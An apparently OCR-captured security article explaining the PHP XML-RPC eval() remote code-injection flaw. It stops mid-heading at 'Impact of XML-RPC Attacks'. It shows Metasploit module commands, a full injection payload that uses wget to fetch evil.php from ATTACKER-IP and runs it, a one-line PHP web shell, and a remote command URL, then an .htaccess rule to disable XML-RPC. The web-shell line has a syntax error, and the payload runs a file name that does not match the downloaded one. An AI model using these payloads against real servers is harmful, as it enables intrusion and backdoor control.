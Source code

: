 msf > use exploit/unix/webapp/php_xmlrpc_eval
msf exploit(php_xmlrpc_eval) > show targets
    ...targets...
msf exploit(php_xmlrpc_eval) > set TARGET <target>
msf exploit(php_xmlrpc_eval) > show options
    ...show and set options...
msf exploit(php_xmlrpc_eval) > exploit
XML-RPC remote code-injection
XML-RPC for PHP has a remote code injection vulnerability in PEAR XML_RPC 1.3.0 and earlier, and PHP XMLRPC 1.1 and earlier. It occurs when the XML parser passes data to eval() without proper sanitization, allowing attackers to execute arbitrary code on the server.

Exploit :

The attacker sends XML data in an HTTP POST request to the vulnerable server, containing a PHP command injection. XML-RPC passes the XML elements to eval() without validating the input. Once executed the PHP command drops a malicious script in the /tmp directory and changes its permissions for execution.

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
  <methodName>test.method</methodName>
  <params>
    <param>
      <value>
        <name>',"));echo '_begin_';echo `cd /tmp;wget ATTACKER-IP/evil.php;chmod +x evil.php;./nikons `;echo '_end';exit;/*</name>
      </value>
    </param>
  </params>
</methodCall>
xml data with PHP command injection

evil.php :

<?php system($_GET['cmd'];)?>
The uploaded malicious PHP file can act as a backdoor allowing the attacker to execute shell commands remotely. By sending a simple GET request like the following, the attacker can run commands on the server:

http://target.com/evil.php?cmd=ls
In this example the ls command will list the files in the current directory, but attackers can execute any system command using this method.

How to Disable WordPress XML-RPC
You can disable XML-RPC using the .htaccess file, a configuration file commonly used in WordPress. Here’s how you can do it:

To disable XML-RPC simply add the following code to your .htaccess file located in the public_html folder:

# Disable XML-RPC to prevent attacks
<Files xmlrpc.php>
    order deny,allow
    deny from all
</Files>
Impact of XML-RPC Attacks
Exploiting XML-RPC vulnerabilities can lead to severe consequences including:
